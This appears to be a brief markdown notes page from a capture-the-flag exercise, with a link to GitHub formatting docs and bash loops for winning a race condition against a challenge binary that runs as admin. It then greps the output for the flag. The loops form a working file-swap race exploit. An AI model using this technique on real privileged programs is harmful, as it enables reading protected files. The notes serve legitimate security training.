 ## Github markdown and formatting syntax.
`https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax`

## Bash scripts for Race Conditions
Important to setup the target file first in userspace so that it can be edited by the user even though the target script executes as admin

 `while /bin/true; do cp -v /home/hacker/catflag /home/hacker/in; done`
 
 `while /bin/true; do /challenge/classwork /home/hacker/in >> /home/hacker/output.txt; done`

 Grep to search for flag in output
 
 `cat /home/hacker/output.txt | grep "pwn"`
